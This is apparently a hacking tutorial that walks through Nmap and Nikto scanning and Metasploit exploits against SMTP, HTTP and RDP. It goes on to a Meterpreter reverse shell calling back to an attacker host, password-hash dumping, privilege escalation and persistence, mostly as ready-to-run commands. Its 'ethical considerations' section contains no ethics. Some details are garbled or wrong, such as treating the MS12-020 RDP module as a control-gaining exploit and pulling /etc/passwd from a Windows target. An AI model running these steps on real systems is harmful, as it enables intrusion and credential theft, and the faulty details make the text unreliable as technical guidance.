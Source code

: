 ## Table of Contents
'
	1. Introduction to How Computers Communicate
	2.	How Data is Transferred in Networks
	3.	Setting Up Your Hacking Lab
	4.	Using Nmap for Network Scanning
	5.	Detailed Port Scanning
	6.	Getting Started with Metasploit
	7.	Common Exploits for SMTP, HTTP, RDP
	8.	Payloads: Gaining Control
	9.	Post-Exploitation: What to Do After a Successful Exploit
	10.	Wrap-Up: Targeting Vectors and Ethical Considerations

1. Introduction to How Computers Communicate

Computers communicate using network protocols, such as:

•	TCP/IP (Transmission Control Protocol/Internet Protocol): The basic communication language of the internet.
	•	HTTP (HyperText Transfer Protocol): Used for communication between web browsers and web servers.
	•	SMTP (Simple Mail Transfer Protocol): Used for sending emails.
	•	RDP (Remote Desktop Protocol): Used to remotely connect to and control a computer.

2. How Data is Transferred in Networks

	•	IP Addressing: Every device on a network has an IP address.
	•	Public IP: Exposed to the internet.
	•	Private IP: Used within internal networks.
	•	Ports: These gateways are used for communication:
	•	HTTP: Port 80 (443 for HTTPS)
	•	SMTP: Port 25
	•	RDP: Port 3389
	•	TCP vs UDP:
	•	TCP: Connection-oriented and reliable.
	•	UDP: Connectionless and faster but less reliable.

3. Setting Up Your Hacking Lab

	•	Use Kali Linux as your attacking machine.
	•	Set up virtual machines (VMs) with vulnerable OS like Metasploitable, Windows XP, or Windows 7.

Command to install necessary tools on Kali Linux:

sudo apt update && sudo apt install nmap metasploit-framework

4. Using Nmap for Network Scanning

Basic Network Scan

Scan active hosts and open ports:

nmap 192.168.1.1/24

Service Version Detection

Identify services running on the target:

nmap -sV 192.168.1.10

Scan All Ports

By default, Nmap scans the top 1000 ports. To scan all 65535 ports:

nmap -p- 192.168.1.10

Scan Specific Ports (HTTP, SMTP, RDP)

nmap -p 80,25,3389 192.168.1.10

OS Detection

Discover the operating system on the target machine:

nmap -O 192.168.1.10

5. Detailed Port Scanning

HTTP (Port 80/443)

	•	Use Nikto to scan for vulnerabilities:

nikto -h http://192.168.1.10

SMTP (Port 25)

	•	Enumerate email accounts:

nmap --script smtp-enum-users -p 25 192.168.1.10

``` RDP (Port 3389)```

	•	Check for vulnerabilities in RDP services:

```nmap --script rdp-vuln-ms12-020 -p 3389 192.168.1.10```

6. Getting Started with Metasploit

Starting Metasploit

Open Metasploit:

```msfconsole```

Searching for Exploits

Search for specific exploits by service, CVE number, or platform:

search smb
```search ms12-020```

Metasploit Modules
	•	Auxiliary: Scanners, fuzzers, and utilities.
	•	Exploits: Code that takes advantage of a vulnerability.
	•	Payloads: Code that runs after a successful exploit, e.g., reverse shell.
	•	Encoders: Obfuscate the payload to avoid antivirus detection.

7. Common Exploits for SMTP, HTTP, RDP

SMTP Exploit Example

Use:

```use exploit/windows/smtp/smtp_vrfy```

Set target IP:

```set RHOST 192.168.1.10```

Run the exploit:

```run```

HTTP Exploit Example

Use:
```use exploit/multi/http/struts2_content_type```

Set target IP and port:

set RHOST 192.168.1.10
```set RPORT 80```

Run the exploit:

```run```

RDP Exploit Example

Use:

```use exploit/windows/rdp/rdp_ms12_020```

Set target IP:

```set RHOST 192.168.1.10```

Run the exploit:

```run```

8. Payloads: Gaining Control

```Reverse Shell```

Set up a reverse shell where the target connects back to your machine:


```set PAYLOAD ``windows/meterpreter/reverse_tcp
set LHOST 192.168.1.20
set LPORT 4444```


Run the exploit:


```run```


Using Meterpreter

Once you get a Meterpreter session, you can run commands like:



•	Download files:

```download /etc/passwd```


•	Dump password hashes:

```hashdump```



9. Post-Exploitation: What to Do After a Successful Exploit

Privilege Escalation

Try to gain administrator/root privileges:

getsystem

Persistence

Ensure persistent access even after a reboot:

```persistence -U -i 10 -p 4444 -r 192.168.1.20```

10. Wrap-Up: Targeting Vectors and Ethical Considerations

Target Vectors

Open Ports: Services running on exposed ports can be vulnerable.
	•	Misconfigurations: Weak settings often lead to vulnerabilities.
	•	Unpatched Systems: Systems lacking security updates are easier to exploit.

